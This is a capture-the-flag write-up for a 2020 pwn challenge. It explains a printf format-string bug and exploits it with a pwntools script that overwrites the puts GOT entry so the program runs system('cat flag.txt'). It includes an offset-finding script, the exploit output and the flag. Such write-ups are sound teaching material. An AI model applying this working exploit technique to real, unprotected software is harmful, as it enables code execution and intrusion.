 # Really Awesome CTF 2020

## Not Really AI

> 200
>
> Challenge instance ready at `88.198.219.20:17119`
>
> Exploit the service to get the flag.
>
> Author: Ironstone
>
> [`nra`](nra)

Tags: _pwn_ _x86_ _got_ _format-string_

## Summary

Format-string vulnerability -> control execution with a simple GOT exploit.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations in place.


### Decompile with Ghidra

Two functions of interest, `response` and `flaggy`:

```c
void response(void)

{
  char local_20c [516];
  
  puts("How are you finding RACTF?");
  fgets(local_20c,0x200,stdin);
  puts("I am glad you");
  printf(local_20c);
  puts("\nWe hope you keep going!");
  return;
}
```

With no mitigations in place, various `printf` format-string exploits are possible, the simplest is to replace the `puts` GOT entry with `flaggy`, then instead of `puts("\nWe hope you keep going!");`, you get:

```c
void flaggy(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0xdf9));
  return;
}
```

`flaggy` calls `system` with an parameter of `iVar1 + 0xdf9`.  To figure out what that actually is, take the address after `iVar1 = __x86.get_pc_thunk.ax();` and add `0xdf9` to it:

```
        0804924c e8 9a 00 00 00        CALL       __x86.get_pc_thunk.ax
        08049251 05 af 2d 00 00        ADD        EAX,0x2daf
```

`0x8049251` + `0xdf9` = `0x804a04a`.  Then look at that address in the disassembly:

```
        0804a04a 63 61 74        ds         "cat flag.txt"
                 20 66 6c 
                 61 67 2e 
```

So, `system("cat flag.txt")`.


## Exploit

```
#!/usr/bin/python3

from pwn import *

#p = process('./nra')
p = remote('88.198.219.20',61933)
binary = ELF('./nra')

p.recvuntil('How are you finding RACTF?')
p.sendline(fmtstr_payload(4,{binary.got['puts']:binary.symbols['flaggy']}))
p.recvline()
p.recvline()
p.recvline()
_ = p.recvline().decode().strip()
print(_)
```

Using the pwntools fmtstr functions, update the GOT `puts` entry with the address of `flaggy`.

The first parameter to `fmtstr_payload` is the offset; you can find this with GDB or with a simple script like this:

```
#!/usr/bin/python3

from pwn import *

def scanit(t):
	p = process('./nra')
	#p = remote('pwn.hsctf.com', 5004)
	p.recvuntil('How are you finding RACTF?')
	p.sendline(t)
	p.recvuntil('I am glad you\n')
	_ = p.recvline().strip()
	p.close()
	return _

for i in range(1,20):
	t = '%' + str(i).rjust(2,'0') + '$010p'
	_ = scanit(t)
	print(i,_)
	if _.find(b'0x') >= 0:
		s = bytes.fromhex(_[2:].decode())[::-1]
		if s == t[:4].encode():
			print('offset:',i)
			break

# ./offset.py | grep -v ]
1 b'0x00000200'
2 b'0xf7f5a580'
3 b'0x080491d1'
4 b'0x24343025'
offset: 4
```

> You could probably just combine the two scripts to fully automate this.

Exploit output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 61933: Done
[*] '/pwd/datajerk/ractf2020/nra/nra'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
ractf{f0rmat_Str1nG_fuN}
```

